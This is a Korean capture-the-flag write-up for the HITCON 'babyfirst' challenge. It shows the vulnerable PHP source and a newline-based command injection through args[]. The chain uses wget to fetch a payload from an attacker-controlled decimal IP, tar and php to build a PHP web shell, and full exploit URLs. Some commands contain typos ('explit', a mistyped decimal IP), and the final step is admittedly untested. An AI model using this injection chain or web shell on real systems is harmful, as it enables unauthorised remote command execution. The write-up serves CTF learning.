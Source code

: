 ============================================================================================================
[HITCON] babyfirst
============================================================================================================

.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Array 취약점;

    :wget을 통한 우회;

    :tar을 통한 우회;

    stop

    @enduml

|

Source Analysis
============================================================================================================

인젝션 취약점이 존재할 수 있는 입력부분을 찾아 인젝션 존재 여부를 확인합니다.

웹 사이트에 접속하니 다음과 같이 php 코드가 보입니다. 

.. code-block:: php

    <?php
        highlight_file(__FILE__);
        $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
        if ( !file_exists($dir) )
            mkdir($dir);
        chdir($dir);
        $args = $_GET['args'];
        for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
        }
        exec("/bin/orange" . implode(" ", $args));
    ?>

|

Array 취약점
============================================================================================================

일단 GET으로 args 파라미터를 쓸 수 있는데 args[]에 문자열 이외에는 값을 입력하지 못하도록 preg_match를 걸어놨네요.

하지만, args[] 문자열 끝에 %0a(LF)를 넣을 수 있습니다.

touch 명령어로 파일 생성을 한번 해봅니다.

.. code-block:: console
    
    http://52.68.245.164/index.php?args[]=a%0a&args[]=touch&args[]=test

    [실제 백엔드 동작]
    /bin/orange a%0a
    touch test

.. image:: ../../_images/babyfirst-01_1.png
    :align: center


정상적으로 파일이 생성이 됩니다. 

|

wget을 통한 우회
============================================================================================================

wget으로 ip를 10진수 형식으로 변환해서 다운로드를 진행합니다. 

(여기서 로컬 테스트라고 가정해서 192.168.0.16=>3232235536으로 설정했습니다.)

.. code-block:: text

    ※ ip를 10진수로 바꿔야 하는 이유?

    코드를 보시면 아시겠지만 문자열을 제외한 모든 입력에 대해 제한이 걸려있기 때문에 .을 쓸 수가 없습니다. 그렇기 때문에 10진수로 바꿔서 wget을 진행합니다.

외부 접속이 가능한 ip에 웹 서버를 구축하고, index.php 파일을 하나 만들어 올립니다.

.. code-block:: php

    <?php
        print shell_exec($_GET["cmd"]);
    ?>
 
그리고 wget으로 해당 ip(10진수)를 지정해주면 해당 파일이 sandbox/ip/ 폴더에 저장됩니다.

.. code-block:: console

    http://52.68.245.164/index.php?args[]=a%0a&args[]=wget&args[]=3232235536

    [실제 백엔드 동작]
    /bin/orange a%0a
    wget 3232235536

여기서부터 또 하나 관문에 부딫혔습니다. wget을 쓸 경우 index.html로 고정되어 다운로드 된다는 점입니다. 

.. code-block:: text
    
    ※ wget으로 다운로드 시 index.html로 고정되면 안되는 이유?

    html 페이지로는 쉘을 실행할 수 없기 때문에 php 코드로 저장이 가능해야 합니다.
 

|

tar를 통한 우회
============================================================================================================

그렇다면 대시(-)나 점(.)을 쓰지 않고 우회할 수 있는 리눅스 쉘 명령을 실행하는 방법이 뭐가 있을 까요?
(라이트업을 보니 wget 대신 busybox ftpget, twistd telnet 을 쓴 것도 있네요.) 

php 소스가 있는 index.html을 새로 생성한 폴더에 다운로드한 후, 그 폴더를 tar를 통해 점이 없는 파일로 압축해서 점(.)을 우회하도록 합니다.

index.html

.. code-block:: bash
    
    <?phpfile_put_contents('shell.php', '    <?php    print shell_exec($_GET["cmd"]);    ?>');?>

.. code-block:: text

    http://52.68.245.164/index.php?args[]=a%0a&args[]=mkdir&args[]=explit%0a&args[]=cd&args[]=exploit%0a&args[]=wget&args[]=32322355636%0a&args[]=tar&args[]=cvf&args[]=archived&args[]=exploit%0a&args[]=php&args[]=archived

    /bin/orange a%0a
    mkdir exploit%0a
    cd exploit%0a
    wget 32322355636%0a
    tar cvf archived exploit%0a
    php archived

결국 대쉬(-)도 안쓰고 점(.)도 안쓰고 php 명령을 실행해서 shell.php 파일을 만들어내는군요.

테스트는 안해봤지만 아마 다음과 같이 쉘 명령을 실행할 수 있을 것으로 보입니다.

.. code-block:: bash

    http://52.68.245.164/sandbox/local_ip/shell.php?cmd=ls